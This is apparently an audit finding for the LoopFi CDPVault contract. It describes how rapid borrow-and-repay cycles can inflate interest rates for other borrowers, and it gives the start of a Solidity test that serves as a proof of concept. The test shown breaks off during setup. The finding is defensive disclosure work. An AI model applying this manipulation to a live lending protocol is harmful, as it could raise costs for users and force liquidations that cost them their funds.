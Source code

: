 ## [H] Malicious borrower cycle exploits to inflate interest rates

[src/CDPVault.sol#L256](repos/2024-07-loopfi/src/CDPVault.sol#L256)

[src/CDPVault.sol#L272](repos/2024-07-loopfi/src/CDPVault.sol#L272)

### Impact

The current implementation allows a malicious actor to artificially inflate interest rates for all borrowers in the system through rapid borrow-and-repay cycles. This exploit can lead to:

1. Increased costs for legitimate borrowers who may face higher interest rates than expected.
2. Potential forced liquidations of other borrowers if interest rates rise rapidly enough to push their positions into unsafe territory.
3. Unfair advantage for the attacker if they are also a lender in the system, as they could increase returns on their deposits.

This vulnerability undermines the fairness and stability of the lending platform, potentially leading to loss of funds for users.

### Proof of Concept

The following test demonstrates the attack by comparing interest accrual with and without the borrow-repay cycles, please add this test function to `CDPVault.t.sol` test file:

```solidity
function test_borrow_repay_cycles_with_attack() public {
  compare_interest_accrual_with_borrow_repay_cycles(true);
}
function test_borrow_repay_cycles_without_attack() public {
  compare_interest_accrual_with_borrow_repay_cycles(false);
}


//    A cycle borrower can increase the interest rate on other borrowers. by borrow and repay.
function compare_interest_accrual_with_borrow_repay_cycles(bool attack) internal {


  console.log(attack?"Cycle borrower is attacking":"Cycle borrower is NOT attacking");


  CDPVault vault = createCDPVault(token, 1000 ether, 0, 1.25 ether, 1.0 ether, 0);
  createGaugeAndSetGauge(address(vault));

  // Setup two borrowers
  address normalBorrower = address(0x1);
  address cycleBorrower = address(0x2);
  address normalBorrower2 = address(0x3);

  // Deposit more collateral to ensure safe ratios
  uint256 collateralAmount = 200 ether;
  token.mint(normalBorrower, collateralAmount);
  vm.prank(normalBorrower);
  token.approve(address(vault), collateralAmount);
  vm.prank(normalBorrower);
  vault.deposit(normalBorrower, collateralAmount);


  token.mint(normalBorrower2, collateralAmount);
  vm.prank(normalBorrower2);
  token.approve(address(vault), collateralAmount);
  vm.prank(normalBorrower2);
  vault.deposit(normalBorrower2, collateralAmount);

```